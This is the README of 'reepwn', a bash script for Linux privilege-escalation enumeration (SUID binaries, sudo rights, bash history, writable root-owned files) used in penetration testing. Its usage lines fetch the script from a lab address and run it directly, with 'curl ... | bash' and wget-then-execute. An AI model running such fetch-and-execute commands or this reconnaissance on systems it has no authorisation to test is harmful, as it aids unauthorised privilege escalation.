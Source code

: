 # reepwn
A bash script used for security-orientated Linux enumeration  
  
Inspired by: [LinEnum](https://github.com/rebootuser/LinEnum)

Features
--------
- OS Detection
- Bash History listing
- SUID things you can run owned by root (https://gtfobins.github.io/)
- Useful /etc/passwd people (uid 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002)
- Sudo permissions
- POSIX permissions
- Finding important log files you can see
- Finding root owned directories that you can write to
- Finding root owned directories that your group can access
- Finding root owned files that you can edit

Usage
-----

curl http://10.10.10.1:1234/reepwn.sh | bash

or

wget http://10.10.10.1:1234/reepwn.sh && chmod +x ./reepwn.sh && ./reepwn.sh
